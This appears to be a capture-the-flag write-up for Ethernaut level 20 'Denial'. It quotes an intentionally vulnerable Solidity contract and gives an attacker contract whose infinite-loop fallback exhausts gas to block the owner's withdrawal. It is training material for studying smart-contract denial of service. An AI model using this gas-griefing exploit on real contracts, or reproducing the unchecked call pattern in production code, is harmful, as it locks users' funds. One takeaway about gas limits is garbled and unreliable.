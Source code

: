 ```yaml
---
description: reentrancy and gas
---
```


# 20 - Denial

Ethernaut Levl20: [Denial](https://ethernaut.openzeppelin.com/level/0xD0a78dB26AA59694f5Cb536B50ef2fa00155C488)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Goal of this level

* deny the `owner` from withdrawing funds

### What you should know before

* reentrancy

```solidity
contract AttackDenial {
    Denial public denialContract;

    constructor(Denial _instance) public {
        denialContract = _instance;
        denialContract.setWithdrawPartner(address(this));
    }

    fallback() payable external {
        while(true) {

        }
    }
}
```

```solidity
// withdraw 1% to recipient and 1% to owner
function withdraw() public {
    uint amountToSend = address(this).balance / 100;
    // perform a call without checking return
    // The recipient can revert, the owner will still get their share
    partner.call{value:amountToSend}("");
    payable(owner).transfer(amountToSend);
    // keep track of last withdrawal time
    timeLastWithdrawn = block.timestamp;
    withdrawPartnerBalances[partner] +=  amountToSend;
}
```

Withdrawal from the `owner` will be reverted because of **infinite** `while` loop.

(If we merely reverted from our fallback function, the next line will still be executed because it's using low-level `call` )

## Key Takeaway

* external calls to unknown contracts can still create denial of service attack vectors
* makes sure a fixed amount of gas is not specified
* make sure you follow **checks-effects-interactions** pattern to prevent reentrancy attack
